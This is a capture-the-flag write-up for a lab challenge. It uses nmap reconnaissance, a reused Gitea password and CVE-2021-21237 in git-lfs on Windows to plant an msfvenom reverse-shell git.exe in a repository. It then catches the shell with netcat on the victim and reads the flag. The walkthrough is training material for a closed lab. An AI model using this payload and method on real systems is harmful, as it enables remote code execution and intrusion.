

# git

## Challenge

```
We found data being exfiltrated out regularly from server 10.0.1.44. Can you find the server it is going to and gain access to the remote server.

Target: Your target is the last line in the bat file on the remote server.
```

## Walkthrough

First step was to find what was running on 10.0.1.44

```sh
$ sudo nmap 10.0.1.44 -sS -v -A -p 0-65535
...
Discovered open port 22/tcp on 10.0.1.44
Discovered open port 3000/tcp on 10.0.1.44
...
3000/tcp open  ppp?
| fingerprint-strings: 
...
|   GetRequest: 
|     HTTP/1.0 200 OK
...
|     <title> Gitea: Git with a cup of tea </title>
...
```

Clearly a git web interface was running on `http://10.0.1.44:3000`.

Navigating to the web interface I found a user called `fab_admin` in the explore tab.



I made an assumption that the password was the same as `fab-admin` from [BADFAB1](../badfab1/README.md). And that assumption was correct!

```
username fab_admin
password populatetwiddleanointer
```

Now that I had user access to the git interface I continued reconnaissance and found a git repo at `http://10.0.1.44:3000/1ord_0f_th3_ch1p/chip_tracker.git`

Inspecting its `README.md` leads to some useful hints.

```md
# chip_tracker

Ensure to clone repo often to get stolen details.

Ensure anti-virus up to date on HQ PC, some of the git software might be out of date.
```

Sounds like the repo is cloned often and that the exploit has something to do with out of date git software on the system cloning the repo.

Inspecting the repo further I noticed a couple of things.

* We have write access but not for existing files, only new ones
* The only file in the repo `./chips_list.csv` is stored using git lfs

Digging around for exploits involving git-lfs I found [CVE-2021-21237](https://nvd.nist.gov/vuln/detail/CVE-2021-21237).

> Git LFS is a command line extension for managing large files with Git. On Windows, if Git LFS operates on a malicious repository with a git.bat or git.exe file in the current directory, that program would be executed, permitting the attacker to execute arbitrary code. This does not affect Unix systems. This is the result of an incomplete fix for CVE-2020-27955. This issue occurs because on Windows, Go includes (and prefers) the current directory when the name of a command run does not contain a directory separator. Other than avoiding untrusted repositories or using a different operating system, there is no workaround. This is fixed in v2.13.2.

I executed this exploit by creating a reverse shell payload with msfvenom and uploaded it to the git repo.

```sh
# create malicious git.exe
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.8.0.8 LPORT=1337 -f exe > git.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes

# add to git
$ git add git.exe
$ git commit -m "ಠ‿↼"

# listen for reverse shell
$ nc -l -p 1337 -vv &
listening on [any] 1337 ...

# upload
$ git push
...
```

Soon after my shell popped! I used it to read the desired `.bat`.

```dos
10.0.1.45: inverse host lookup failed: Unknown host
connect to [10.8.0.2] from (UNKNOWN) [10.0.1.45] 54848
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\git\chip_tracker>cd ..
C:\Users\Administrator\git\> dir
...
01/05/2022  06:09 PM               203 clone.bat
...
C:\Users\Administrator\git\>type clone.bat
...
REM All_YOUR_CHIP_ARE_BELONG_TO_US.
...
```

## Solve

string: `REM All_YOUR_CHIP_ARE_BELONG_TO_US.`
